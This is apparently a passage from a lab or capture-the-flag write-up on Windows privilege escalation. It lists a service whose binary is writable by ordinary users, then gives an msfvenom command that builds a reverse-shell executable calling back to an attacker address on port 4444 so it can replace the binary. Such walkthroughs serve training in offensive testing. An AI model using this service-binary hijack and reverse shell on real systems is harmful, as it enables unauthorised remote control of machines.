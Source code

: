 We can scroll up and see what's so special about these binary permissions.

```
Name              : Service1
ImagePath         : C:\program files\zen\zen services\zen.exe
User              : zensvc@exam.com
ModifiablePath    : C:\program files\zen\zen services
IdentityReference : BUILTIN\Users
Permissions       : WriteAttributes, Synchronize, AddSubdirectory, WriteExtendedAttributes, AddFile
Status            : Stopped
UserCanStart      : False
UserCanStop       : False

Name              : Service1
ImagePath         : C:\program files\zen\zen services\zen.exe
User              : zensvc@exam.com
ModifiablePath    : C:\program files\zen\zen services\zen.exe
IdentityReference : BUILTIN\Users
Permissions       : WriteAttributes, Synchronize, AppendData, WriteExtendedAttributes, WriteData
Status            : Stopped
UserCanStart      : False
UserCanStop       : False
```

What's so interesting about this zen.exe file is that we can basically edit the zen.exe file or add a reverse shell in there. However, it's useless without a way to activate it.

```
C:\Users\ted>sc qc Service1
[SC] QueryServiceConfig SUCCESS
SERVICE_NAME: Service1
TYPE               : 10  WIN32_OWN_PROCESS
START_TYPE         : 2   AUTO_START  (DELAYED)
ERROR_CONTROL      : 1   NORMAL
BINARY_PATH_NAME   : C:\program files\zen\zen services\zen.exe
LOAD_ORDER_GROUP   :
TAG                : 0
DISPLAY_NAME       : ZenHelpDesk
DEPENDENCIES       :
SERVICE_START_NAME : zensvc@exam.com
```

With this, we can see that the service/process is auto start on machine boot, but it's slightly delayed. Therefore, I can alter the zen.exe file to a reverse shell, reboot the machine, and wait until I get a shell callback.

```
sudo msfvenom -p windows/x64/shell_reverse_tcp LHOST=192.168.45.213 LPORT=4444 -f exe -o /var/www/html/zen.exe
```

A simple msfvenom command and I'm able to get the flag.

